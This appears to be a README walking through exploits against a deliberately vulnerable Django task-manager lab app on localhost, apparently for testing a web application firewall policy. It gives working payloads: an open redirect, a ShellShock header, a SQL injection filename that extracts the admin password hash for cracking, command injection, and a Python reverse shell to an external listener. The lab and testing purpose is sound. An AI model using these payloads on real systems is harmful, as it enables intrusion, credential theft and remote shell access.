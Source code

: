 # Instructions for exploiting vulnerabilities in the djangonv app

## App Protect Policy

Before beginning, some adjustments need to be made to the App Protect policy in order to allow some of the (poorly written) code to run:


/taskManager/register triggers the SQL Injection Syntax Error algorithm.  It's best to disable it for this app.

/taskManager/login/, /taskManager/logout and others triggers Redirect Protection.  Need to alter policy to allow http://127.0.0.1:8000/*


## Exploits

### Open Redirect Vulnerability

The /taskManager/logout endpoint is susceptible to an open redirect.
Threat actors can leverage these types of vulnerabilities to redirect the user's browser to a URL of their choice.  
The typical exploit vector is via a malicious embedded link in an email.

Demonstrate the vulnerability by pasting the following into the browser's URL space:
```
http://127.0.0.1:8000/taskManager/logout?redirect=http://www.yahoo.com
```

### Malicious Payload (Intrusion Prevention)
Open a terminal window and past in the following (ShellShock) exploit:
```
curl -H "User-Agent: () { :; }; /bin/eject" http://127.0.0.1:8000
```
### Remote Command Execution

To trigger a Remote Command Execution (that's actually both a RCE and SQLi..), do this:

1. Go to http://127.0.0.1:8000/ and click "Login"

2. Login to the application
```
user / user123
```
3. Click the link for the "demo project".

4. Click the "Add files" link.  

5. Pick any file from your local computer, and use the following payload for the filename:
```
'||(SELECT password FROM auth_user WHERE username='admin')||'
```
Once this exploit has succeeded, you should see the file in the project file list. The filename contains the MD5 hash of the password of the admin user (after the "md5$"). You should be able to crack this password using JTR or rainbow tables or other.

### OS Command Injection:

In the same place as in for the attack above ("My Projects" --> project you created, add files).
Also pick any file from your local computer, but for the payload use:

An innocent sleep statement (to demonstrate that we can run any command):
```
some_file_name; sleep 1m
```
You'll notice that (without App Protect), the browser will "sleep" for 1 minute.


python reverse shell:
```
some_file_name; python -c 'import socket, subprocess,os;s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect(("192.168.64.1", 8001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

Note:  You'll need to set up a listener on an external host in order for this reverse shell to actually connect.  In this case the host is at 192.168.64.1 and is listening on port 8001.

